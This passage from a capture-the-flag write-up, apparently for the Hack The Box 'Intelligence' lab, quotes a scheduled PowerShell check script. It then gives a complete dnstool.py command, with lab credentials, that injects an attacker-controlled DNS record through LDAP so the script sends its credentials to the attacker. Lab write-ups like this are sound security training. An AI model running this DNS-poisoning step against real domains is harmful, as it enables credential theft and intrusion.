 # Second User

Now that we have a valid account we can enumerate shares.

![](/assets/images/intelligence/shares.png)

We can retrieve user.txt from users share, the other interesting share is "IT", if we check it we find a powershell script.

```powershell
# Check web server status. Scheduled to run every 5min
Import-Module ActiveDirectory 
foreach($record in Get-ChildItem "AD:DC=intelligence.htb,CN=MicrosoftDNS,DC=DomainDnsZones,DC=intelligence,DC=htb" | Where-Object Name -like "web*")  {
try {
$request = Invoke-WebRequest -Uri "http://$($record.Name)" -UseDefaultCredentials
if(.StatusCode -ne 200) {
Send-MailMessage -From 'Ted Graves <Ted.Graves@intelligence.htb>' -To 'Ted Graves <Ted.Graves@intelligence.htb>' -Subject "Host: $($record.Name) is down"
}
} catch {}
}
```

It says that the script is scheduled to run every 5 minutes, so we might be able to get something from it, reading the script we see that it gets any object inside "DC=intelligence.htb,CN=MicrosoftDNS,DC=DomainDnsZones,DC=intelligence,DC=htb", whose name begins with "web", and makes a request to a website hosted there, we can create an ldif file and add an object there, but if we do that the server doesn't know to where make the request, we know that domain controllers also work as DNS servers, we know that we can manipulate ldap (as mentioned you can create a ldif file and add it with ldapadd), so there might be a way to manipulate DNS records through LDAP, searching about it we find [krbrelayx](https://github.com/dirkjanm/krbrelayx), among the scripts there is dnstool, which is a tool that allow us to add a DNS record through LDAP, we clone the repository and execute `python3 dnstool.py -u 'intelligence.htb\Tiffany.Molina' -p 'NewIntelligenceCorpUser9876' -r websub -a add -d 10.10.16.30 10.10.10.248` to add ourselves to the DNS, this will also add ourselves to the desired OU.

![](/assets/images/intelligence/dnstool.png)
